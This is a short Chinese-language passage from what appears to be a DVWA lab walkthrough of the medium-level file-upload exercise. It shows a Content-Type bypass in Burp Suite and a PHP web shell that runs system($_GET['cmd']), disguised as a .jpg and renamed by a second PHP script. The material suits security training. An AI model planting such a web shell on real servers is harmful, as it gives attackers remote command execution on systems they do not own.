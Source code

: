 2.中级安全级别

方法一：使用BuipSuite绕过文件类型限制

![image-20220409155855047](/img/security/image-20220409155855047.png)

将类型修改为`image/jpeg`即可上传成功。



方法二：把php脚本伪造成为jpg格式

编写如下两个脚本文件

```php
# rename.php
<? 
system('mv ../../hackable/uploads/webshell.jpg ../../hackable/uploads/webshell.php'); 
?>
    
# webshell.php
<? 
system($_GET['cmd']); 
echo '<form method="post" action="../../hackable/uploads/webshell.php"><input type="text" name="cmd"/></form>'; 
?>
```

更改文件后缀为.jpg并上传
